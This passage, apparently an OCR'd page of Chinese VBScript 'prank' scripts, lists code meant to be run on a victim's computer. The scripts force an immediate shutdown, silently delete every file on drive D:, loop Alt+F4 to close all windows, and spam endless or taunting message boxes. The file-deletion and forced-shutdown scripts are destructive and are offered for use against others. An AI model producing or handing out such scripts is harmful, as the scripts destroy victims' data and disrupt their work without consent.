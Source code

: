 ```
dim WSHshell 
set WSHshell = wscript.createobject("wscript.shell") 
WSHshell.run "shutdown -f -s -t 00",0 ,true
```

----------------------------------------------------------------------------- 
## 五、删除D:\所有文件 

```
dim WSHshell 
set WSHshell = wscript.createobject("wscript.shell") 
WSHshell.run "cmd /c ""del d:\*.* / f /q /s""",0 ,true 
```

---------------------------------------------------------------------------- 
## 六、不断弹出窗口 
 
```
while(1) 
msgbox "哈哈 你被耍了！" 
loop
```

---------------------------------------------------------------------------- 
## 七、不断按下alt+f4 （开什么都关闭……） 

```
dim WSHshell 
set WSHshell = wscript.createobject("wscript.shell") 
while(1) 
WSHshell.SendKeys "%{F4}" 
loop
```

---
## 八、按500次回车 

```
dim s 
do until s=500 
s=s+1 
msgbox "哥们，给我按500次回车吧",64 
loop
```

 ------------------------------------------------------------ 

## 九、关不掉的窗口 

```
WScript.Echo("嘿，谢谢你打开我哦，我等你很久拉！"&TSName) 
WScript.Echo("你是可爱的小朋吗?") 
WScript.Echo("哈,我想你拉，这你都不知道吗？") 
WScript.Echo("怎么才来，说~是不是不关心我") 
WScript.Echo("哼,我生气拉，等你这么久，心都凉啦。") 
WScript.Echo("小强很生气，后果很严重哦。") 
WScript.Echo("嘿嘿！你也会很惨滴哦") 
WScript.Echo("是不是想清除我？") 
WScript.Echo("那你要点上50下哦，不过会给你惊喜滴") 
WScript.Echo("还剩49下，快点点哦") 
WScript.Echo("还剩48下，快点，小笨蛋！") 
WScript.Echo("还剩47下对，就这样快点点！") 
WScript.Echo("还剩46下。你啊就是笨，要快哦，我先不打扰你工作。") 
```